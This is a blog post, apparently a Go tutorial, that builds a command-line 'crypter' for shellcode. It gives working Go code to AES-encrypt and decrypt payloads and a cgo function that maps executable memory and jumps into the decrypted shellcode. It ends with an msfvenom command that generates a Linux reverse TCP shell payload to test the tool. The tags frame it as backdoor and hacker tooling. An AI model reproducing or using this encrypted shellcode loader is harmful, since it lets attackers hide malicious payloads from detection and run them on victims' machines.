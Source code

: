```yaml
---
layout: post
title: Go进阶16:go语言AES编写shellcode
category: Golang
tags: Go进阶
description: 
keywords: shell-code后门,go黑客,go后门,golang unsafe
date: 2019-04-04T13:19:54+08:00
score: 5.0
coverage: golang_shellcode.jpg
published: true
---
```


## 1.前言

The goal for this post will be to demonstrate how to write a sort of crypter that will work as a command line utility allowing us to:

Encrypt a file (it’s aimed for shellcode payloads but that’s irrelevant)
Decrypt a file
Run shellcode

## 2.Step One: Encrypt

I choose AES as the cipher. The code looks like this (full source can be found on GitHub):

```go
func Encrypt(key []byte, text []byte) ([]byte, error) {
 // Init Cipher
 block, err := aes.NewCipher(key)
 if err != nil {
   return nil, err
 }
 // Padding
 paddingLen := aes.BlockSize - (len(text) % aes.BlockSize)
 paddingText := bytes.Repeat([]byte{byte(paddingLen)}, paddingLen)
 textWithPadding := append(text, paddingText...)
 // Getting an IV
 ciphertext := make([]byte, aes.BlockSize+len(textWithPadding))
 iv := ciphertext[:aes.BlockSize]
 // Randomness
 if _, err := io.ReadFull(rand.Reader, iv); err != nil {
   return nil, err
 }
 // Actual encryption
 cfbEncrypter := cipher.NewCFBEncrypter(block, iv)
 cfbEncrypter.XORKeyStream(ciphertext[aes.BlockSize:], textWithPadding)
 return ciphertext, nil
}
```

The function just creates an AES cipher, then calculates the padding needed and proceeds to encrypt the payload.

## 3.Step Two: Decrypt

Now we need to implement the reverse function (again, full source code on Github):

```go
func Decrypt(key []byte, text []byte) ([]byte, error) {
  // Init decipher
  block, err := aes.NewCipher(key)
  if err != nil {
    return nil, err
  }
  if (len(text) % aes.BlockSize) != 0 {
    return nil, errors.New("wrong blocksize")
  }
  // Getting the IV
  iv := text[:aes.BlockSize]
  // Actual decryption
  decodedCipherMsg := text[aes.BlockSize:]
  cfbDecrypter := cipher.NewCFBDecrypter(block, iv)
  cfbDecrypter.XORKeyStream(decodedCipherMsg, decodedCipherMsg)
  // Removing Padding
  length := len(decodedCipherMsg)
  paddingLen := int(decodedCipherMsg[length-1])
  result := decodedCipherMsg[:(length - paddingLen)]
  return result, nil
}
```

## 4.Step Three: Run

As we are using Go (which does not allow raw bytes execution by default) and the shellcode provided was written for the C stack we need to find a way to execute C code in Go. This
can be accomplished by using the “C” package and unsafe pointers.

In C we’d do something like this:

```c
fp = (void *)shellcode
fp();
```

While in Go we need to use some tricks. We’ll use the unsafe package a special pointer that will allow us to use unsafe features:

```go
import "unsafe"
func Run(shellcode []byte) {
  ptr := &shellcode[0]
  unsafe.Pointer(ptr)
}
```

Then we add the C package, write our C code as a comment right above the import and use the defined function to execute the unsafe pointer. This will behave as the C code presented
earlier:

```go
/*
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
void execute(char *shellcode, size_t length) {
  unsigned char *ptr;
  ptr = (unsigned char *) mmap(0, length, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  memcpy(ptr, shellcode, length);
  ( *(void(*) ()) ptr)();
}
*/
import "C"
import ("unsafe")
func Run(shellcode []byte) {
  ptr := &shellcode[0]
  size := len(shellcode)
  C.execute((*C.char)(unsafe.Pointer(ptr)), (C.size_t)(size))
}
```

Yes, it’s ugly, I know… but you are running unsafe C code inside Go. It should be ugly. Full source code for this package can be found here.

## 5.Step Four: CLI

Now that we have the meaty part ready we’ll need to implement some methods to facilitate the tool usage. I implemented some functions to allow the user to fire the encryption,
decryption and “decrypt & run” routines using various sets of options.

I won’t go into details for this part as it just reads the parameters provided from os.Args[] and determines which function to execute depending on the input. Source code can be
found here.

```bash
gocrypt {action} {key} {file}
Action can be: 
  Encryption:     --encrypt -e encrypt e
  Decryption:     --decrypt -d decrypt d
  Decrypt & Run:  --run     -r run     r
Key: must be 16, 24 or 32 chars long
File: must be a valid path
```

## 6.Step Five: Show

We can get the raw bytes for a reverse TCP shell from Metasploit issuing:

msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 > msfvemonpayload
After that, we can use the payload to test our crypter. It’s show time!
